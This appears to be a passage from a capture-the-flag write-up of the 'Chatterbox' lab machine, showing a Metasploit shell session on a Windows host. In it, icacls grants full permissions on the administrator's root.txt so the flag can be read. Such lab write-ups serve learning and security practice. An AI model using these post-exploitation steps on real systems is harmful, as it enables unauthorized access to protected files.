 ```
msf exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
chatterbox\alfred
C:\Users\Alfred\Desktop>type user.txt
[redacted]
```

There seemed to be a file permissions misconfiguration on the local `administrators` folder, and the `root.txt` file. I assumed this was the 
method we were supposed to take to get the `root.txt` flag. `root.txt` is owned by `Alfred` so we can use `icacls` to give full permissions on the `root.txt` file so we can read it. 

_getting root.txt by using icalcs to grant full permissions on the file_
```
C:\Users\Administrator\Desktop>dir /Q
 Volume in drive C has no label.
 Volume Serial Number is 9034-6528

 Directory of C:\Users\Administrator\Desktop

12/10/2017  07:50 PM    <DIR>          BUILTIN\Administrators .
12/10/2017  07:50 PM    <DIR>          NT AUTHORITY\SYSTEM    ..
12/10/2017  07:50 PM                32 CHATTERBOX\Alfred      root.txt
               1 File(s)             32 bytes
               2 Dir(s)  17,758,883,840 bytes free

C:\Users\Administrator\Desktop>icacls.exe root.txt /grant CHATTERBOX\Alfred:F
processed file: root.txt
Successfully processed 1 files; Failed processing 0 files

C:\Users\Administrator\Desktop>type root.txt
[redacted]
```
